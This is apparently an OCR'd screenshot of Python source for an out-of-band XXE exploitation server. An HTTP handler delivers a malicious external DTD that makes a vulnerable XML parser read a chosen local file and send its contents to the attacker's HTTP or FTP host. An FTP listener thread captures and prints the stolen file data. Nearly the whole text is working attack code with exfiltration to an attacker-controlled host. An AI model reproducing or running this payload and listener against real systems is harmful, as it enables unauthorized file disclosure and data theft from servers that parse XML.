 ```
xxeplatform_ftp_port = ""


class XXERequestHandler(SimpleHTTPRequestHandler):
    def log_message(self, format, *args):
        return
    def do_GET(self):
        if self.path.endswith("file.dtd"):
            print("[+] Delivering DTD file to " + self.client_address[0])

            if xxeplatform_ftp_port == "false":
                xml = """<!ENTITY % file SYSTEM "file://{filetoread}">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://{xxeplatform_url}:{xxeplatform_http_port}/?requestfiledata=%file;'>">
%eval;
%exfiltrate;""".format(filetoread=filetoread,xxeplatform_url=xxeplatform_url,xxeplatform_http_port=xxeplatform_http_port)
            else:
                xml = """<!ENTITY % file SYSTEM "file://{filetoread}">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'ftp://{xxeplatform_url}:{xxeplatform_ftp_port}/%file;'>">
%eval;
%exfiltrate;""".format(filetoread=filetoread,xxeplatform_url=xxeplatform_url,xxeplatform_ftp_port=xxeplatform_ftp_port)

            self.send_response(200)
            self.send_header("Content-Length", len(xml))
            self.end_headers()
            self.wfile.write(str.encode(xml))

        if "?requestfiledata=" in self.path:
            print("[+] Read file content successfully. The contents are as follows:")
            print(self.path[18:])

    def do_POST(self):
        print(self.path)
        post_data = self.rfile.read(length).decode()
        print(post_data)
        self.send_response(200)
        self.send_header("Content-type", "text/plain")
        self.end_headers()
        self.wfile.write()
       
#Reference:https://github.com/TheTwitchy/xxer/
class FTPserverThread(threading.Thread):
    def __init__(self, conn_addr):
        conn, addr = conn_addr
        self.conn = conn
        self.addr = addr
        threading.Thread.__init__(self)

    def run(self):
        self.conn.send(b'220 Welcome!\r\n')
        print("[+] Read file content successfully. The contents are as follows:")
        while True:
            data = self.conn.recv(1024)
            if not data:
                break
            else:
                if "RETR" in bytes.decode(data):
                    print(bytes.decode(data)[5:], end='')
                elif "CWD" in bytes.decode(data):
                    print(bytes.decode(data)[4:], end='')
```